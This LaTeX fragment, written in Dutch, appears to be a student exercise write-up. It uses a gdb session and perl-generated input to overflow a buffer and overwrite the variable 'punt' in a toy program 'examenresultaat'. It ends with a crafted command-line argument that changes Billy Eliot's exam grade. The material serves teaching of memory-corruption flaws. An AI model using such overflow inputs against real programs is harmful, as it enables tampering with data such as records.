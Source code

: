 \begin{enumerate}
\begin{enumerate}
  	\item \$1 = 16
  	\end{enumerate}
  \item (gdb) run \$(perl -e `print ``A''x17')
  	\begin{enumerate}
  	\item 17 keer A afprinten
  	\item De variabele punt zal nu overschreven worden met A
  	\end{enumerate}
  \item (gdb) cont
  \item (gdb) x/s punt
  	\begin{enumerate}
  	\item 0xbffff700: ``5/20''
  	\end{enumerate}
  \item (gdb) cont
  \item (gdb) x/s punt
  	\begin{enumerate}
  	\item 0xbffff700: ``A''
  	\end{enumerate}
  \item Gelukt!
  \item Volgens de opgave moet Billy Eliot \textgreater 10/20 behalen
  \item (gdb) quit
  \item ./examenresultaat ``\$(perl -e `print ``Billy Eliot'' . ``~~'' x5 . ``15/20'' ')''
\end{enumerate}

